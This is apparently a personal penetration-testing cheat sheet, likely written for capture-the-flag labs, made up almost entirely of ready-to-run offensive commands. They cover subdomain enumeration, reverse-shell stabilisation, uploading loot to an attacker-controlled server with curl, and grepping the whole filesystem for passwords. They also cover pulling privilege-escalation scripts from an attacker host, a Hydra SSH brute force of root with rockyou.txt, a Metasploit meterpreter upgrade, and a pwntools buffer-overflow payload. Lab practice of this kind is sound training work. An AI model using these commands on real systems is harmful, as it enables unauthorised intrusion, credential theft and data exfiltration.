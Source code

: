 # CHECK-LIST
- add ip and domain to /etc/hosts
- check website with zaproxy
- searchsploit for technologies used
- msfconsole search for technologies used
- search for alternatives to programs

# sub domain enum
amass enum -src -ip -passive -d <domain> -o output.txt
amass enum -src -ip -d <domain> -o output.txt
amass enum -src -ip -active -d <domain> -o output.txt
amass enum -d <domain> -active -brute -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt

# webservers
urlencode your shit
check if path traversal is possible
curl http://localhost:3000/~user/file

# Stable shell
1. python3 -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. background; stty raw -echo; fg

# post file to updog
curl -v -XPOST -F "file=@/tmp/linenum.txt;filename=linenum.txt" -F "path=/home/kali" http://so.me.ip.at:9090/upload

# check files content
grep -r "password" / 2> /dev/null
grep -r "pass" / 2> /dev/null
grep -r "username" / 2> /dev/null
grep -r "user" / 2> /dev/null
grep -r "comm=\"su" /var/log/audit

# rev shell
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

# download post files (linux)
http://0.0.0.0:9090/bin/LinEnum/LinEnum.sh
http://0.0.0.0:9090/bin/postenum/postenum.sh
http://0.0.0.0:9090/bin/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh

# Hydra ssh
hydra -l root -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ip -t 4 ssh

# Upgrade metasploit shell
use multi/manage/shell_to_meterpreter

# find docker files
find / -type f -name "*env"
find / -type f -name "Dockerfile"
find / -type f -name "*docker-compose*"

# download files curl
curl http://localhost:9090/file -o output.file

# bof python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"'
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'

from pwn import *
proc = process('/opt/secret/root')
elf = ELF('/opt/secret/root')
shell_func = elf.symbols.shell
payload = fit({
44: shell_func # this adds the value of shell_func after 44 characters
})
proc.sendline(payload)
proc.interactive()

# interesting files
find / -name "*user*" -not \( -path "/proc/*" -or -path "/sys/*" -or -path "/usr/share/icons/*" -or -path "/usr/share/man/*" -or -path "/usr/share/locale/*" -or -path "/usr/share/help/*" -or -path "/usr/src/linux-headers*"  -or -path "/usr/share/help-langpack/*" -or -path "/var/lib/dpkg/info/*" -or -path "/usr/share/doc/*" -or -path "/usr/share/locale-langpack/*" -or -path "/var/lib/app-info/icons/*" \) 2> /dev/null
find / -user <user>
find / -mtime -60 # find files with are modified in last 60 days
find / -perm 0777
find / -type f -mmin -5 ! -path "/proc/*" ! -path "/sys/*" ! -path "/run/*" ! -path "/dev/*" ! -path "/var/lib/*" 2>/dev/null # edit in last 5min
find / -newermt "2020-08-13" 2> /dev/null
